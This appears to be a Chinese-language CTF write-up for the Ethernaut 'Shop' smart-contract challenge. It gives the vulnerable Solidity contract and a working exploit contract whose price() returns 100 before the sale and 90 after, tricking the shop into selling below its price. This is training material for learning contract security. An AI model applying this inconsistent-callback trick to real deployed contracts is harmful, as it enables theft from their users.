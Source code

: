 
---

## Shop

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    interface Buyer {
        function price() external view returns (uint);
    }

    contract Shop {
        uint public price = 100;
        bool public isSold;

        function buy() public {
            Buyer _buyer = Buyer(msg.sender);

            if (_buyer.price() >= price && !isSold) {
                isSold = true;
                price = _buyer.price();
            }
        }
    }
    ```

目的是使 price 小于 100。和 Elevator 类似，只要使两次调用 price 得到的值不一样就可以了

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    /* code of Shop */

    contract Exploit {
        Shop challenge;
        constructor(address addr) public {
            challenge = Shop(addr);
        }
        function price() external view returns (uint) {
            if (challenge.isSold()) {
                return 90;
            }
            return 100;
        }
        function exp() public {
            challenge.buy();
        }
    }
    ```

---